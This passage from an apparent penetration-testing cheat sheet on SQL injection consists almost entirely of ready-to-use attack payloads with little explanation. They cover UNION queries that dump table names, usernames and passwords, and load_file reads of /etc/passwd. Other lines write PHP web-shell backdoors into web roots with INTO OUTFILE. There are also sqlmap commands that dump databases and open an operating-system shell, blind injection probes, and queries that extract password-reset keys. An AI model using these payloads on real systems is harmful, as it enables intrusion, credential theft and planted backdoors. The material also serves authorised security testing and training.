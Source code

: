 				union all select 1, 2, table_name from information_schema.tables
				    union all select 1, 2, column_name from information_schema.columns where table_name='users'
				    union all select 1, username, password from users
					or:  union select 1,2,concat(name,0x3a,password) FROM users
				Read File:  union all select 1, 2, load_file('C:/Windows/System32/drivers/etc/hosts')
					UNION SELECT 1, load_file(/etc/passwd) #
					union select null,load_file('/etc/passwd'),null,null,null
				Make Backdoor:  
					Win:  union all select 1, 2, "<?php echo shell_exec($_GET['cmd']);?>" into OUTFILE 'c:/xampp/htdocs/cmd.php'
						Or:  union select '<?php system($_GET[\'cmd\']); ?>',2,3,4,5,6 into outfile 'c:/inetpub/wwwroot/_0xdf.php'#
					Unix:  union all select 1,2,3,4,"<?php echo shell_exec($_GET['cmd']);?>",6,7,8,9 into OUTFILE '/var/www/html/cmd.php'
						Or:  ?cod=1+union+select+1,2,3,4,5,6,'<?php_system($_GET["cmd"]); ?>' into outfile '/var/www/html/cmd.php'
			    		Access:  10.11.0.22/backdoor.php?cmd=ifconfig
					Windows: try creating admin user and add to RDP group
	Automated Exploitation:
		Post:
			Capture request w/ burp & save, then:  sqlmap -r request.txt -p username
		Get:
		    sqlmap -u http://10.11.0.22/debug.php?id=1 -p "id"
			Dump database:   sqlmap -u http://10.11.0.22/debug.php?id=1 -p "id" --dbms=mysql --dump [-D Webapp -T Users]
			Open Shell:   sqlmap -u http://10.11.0.22/debug.php?id=1 -p "id" --dbms=mysql --os-shell
		Examples:
			Automated Scan:  sqlmap -u http://example.com --forms --batch --crawl=10 --cookie=sessionid=12345 --level=5 --risk=3
			Targeted Scan:  sqlmap -u TARGET -p PARAM --data=POSTDATA --cookie=COOKIE --level=3 --current-user --current-db --passwords --file-read="/var/www/page.php" 
			Check Form for Injection:  sqlmap -o -u "http://example.com/form/" --forms
			sqlmap -u "http://example.com/page.php?id=1" --dbms=mysql --technique=U --random-agent --dump
			sqlmap -o -u "http://example.com/vuln-form" --forms -D database-name -T users --dump
	Blind SQL Injection:
		Boolean (if you have a visual indicator):
			MySQL:
				True:  AAAA')/**/or/**/(select/**/1)=1%23
            			False:  AAAA')/**/or/**/(select/**/1)=0%23
				Extraction:  q=test%27)/**/or/**/(select/**/ascii(substring((select/**/version()),1,1)))=53%23
		Time-Based (if no feedback is displayed):
			PostgreSQL:  ?userId=1;%20SELECT%20pg_sleep(10)%20--
	SQL command LFI/reverse shell:  add field in table with value:  <?php system($_REQUEST["cmd"]);?>
	Follow-on Auth Bypass Methods:
		dump hashes and crack passwords
		account hijack methods (ex. stealing password reset token)
	Fix Collation Error:
                Check Injection Site:  abc" UNION ALL SELECT 1,2,3,4,COLLATION_NAME FROM information_schema.columns WHERE TABLE_NAME = "__global_search" AND COLUMN_NAME = "name"#
                Then Apply:  abc" UNION ALL SELECT 1,2,3,4,name COLLATE utf8mb4_general_ci FROM __Auth#
            Ex. Finding value/pulling column names:  abc" UNION ALL SELECT 1,2,3,4,COLUMN_NAME FROM information_schema.columns WHERE TABLE_NAME = "tabUser"#
                Pull value:  abc" UNION ALL SELECT name COLLATE utf8mb4_general_ci,2,3,4,reset_password_key COLLATE utf8mb4_general_ci FROM tabUser#
### Useful MySQL Queries:
